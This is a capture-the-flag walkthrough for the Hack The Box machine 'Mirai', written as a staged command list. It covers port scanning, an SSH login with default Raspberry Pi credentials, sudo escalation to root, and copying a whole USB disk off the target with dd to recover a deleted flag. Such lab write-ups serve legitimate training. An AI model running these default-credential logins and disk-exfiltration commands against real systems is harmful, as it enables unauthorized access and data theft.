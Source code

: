 Here’s a clean, organized **walkthrough-style command reference** for **HTB: Mirai**, grouped by stage and including explanations for each step:

---

# 🧠 HTB: Mirai — Command Writeup

## 🛰️ Recon

### 🔍 Full Port Scan (All TCP Ports)
```bash
nmap -p- --min-rate 10000 10.10.10.48
```
> Scans all 65535 TCP ports with high speed. Found ports: 22 (SSH), 53 (DNS), 80 (HTTP), 1877 (UPnP), 32400 (Plex), 32469 (UPnP).

### 🔍 Targeted Service & Version Detection
```bash
nmap -p 22,53,80,1877,32400,32469 -sCV 10.10.10.48
```
> Runs default scripts and version detection on open ports.

### 🌐 Directory Brute-Force
```bash
feroxbuster -u http://10.10.10.48
```
> Discovers `/admin`, `/admin/scripts`, `/admin/img`, etc. — confirms it's a Pi-hole admin interface.

---

## 🔓 Shell as `pi` (User)

### 🔐 Attempt Default Raspberry Pi SSH Credentials
```bash
sshpass -p raspberry ssh pi@10.10.10.48
```
> Logs in successfully using default creds: `pi:raspberry`.

### 📄 Capture User Flag
```bash
cat ~/Desktop/user.txt
```

---

## 🧑‍💼 Shell as `root`

### 🔍 Check `sudo` Privileges
```bash
sudo -l
```
> Shows `pi` can run **ALL commands as root** without password.

### 🔁 Elevate to Root
```bash
sudo su -
# OR
sudo -i
```

---

## 🧪 Root Flag Recovery

### 🔍 Inspect Mounted Devices
```bash
mount
# or
lsblk
```
> Identifies `/dev/sdb` mounted as `/media/usbstick`.

### 🔍 Locate Files on USB Stick
```bash
cd /media/usbstick
find . -ls
```
> Sees `damnit.txt` and empty `lost+found`; no `root.txt`.

### 🔍 Search for 32-char Hex Flag (using `grep`)
```bash
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
```

### 🔍 Alternative: Search Printable Strings
```bash
strings /dev/sdb -n 32
```

---

## 📦 Optional: Extract Disk Image for Offline Analysis

### 🧲 Copy USB Disk to Local Machine
```bash
sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
```

### 🗜️ Decompress & Analyze
```bash
gunzip usb.gz
file usb     # Confirm it's an ext4 FS
```

### 🧱 Recover Deleted Files (with `extundelete`)
```bash
extundelete usb --restore-all
ls RECOVERED_FILES/
cat RECOVERED_FILES/root.txt
```